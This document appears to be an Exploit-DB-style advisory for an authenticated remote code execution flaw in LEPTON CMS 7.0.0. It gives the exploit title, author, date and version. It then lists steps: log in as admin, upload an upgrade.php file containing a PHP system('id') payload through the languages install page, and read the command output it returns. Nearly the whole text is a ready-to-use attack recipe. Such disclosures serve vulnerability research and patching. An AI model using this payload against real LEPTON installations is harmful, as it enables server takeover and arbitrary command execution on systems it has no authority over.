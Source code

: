 ## Exploit Title: Lepsem : 7.0.0  Remote Code Execution
### Date: 2024-1-19
### Exploit Author: tmrswrr
### Category: Webapps
### Vendor Homepage: https://www.lepton-cms.com/
### Version : 7.0.0
### Tested on: https://www.softaculous.com/apps/cms/LEPTON

1 ) Login with admin cred   >  https://127.0.0.1/LEPTON/backend/login/index.php
2 ) Go to Languages place   > https://127.0.0.1/LEPTON/backend/languages/index.php
3 ) Upload upgrade.php file in languages place > <?php echo system('id'); ?>
4 ) After click install you will be see result

### Result :  uid=1000(lepton) gid=1000(lepton) groups=1000(lepton) uid=1000(lepton) gid=1000(lepton) groups=1000(lepton)
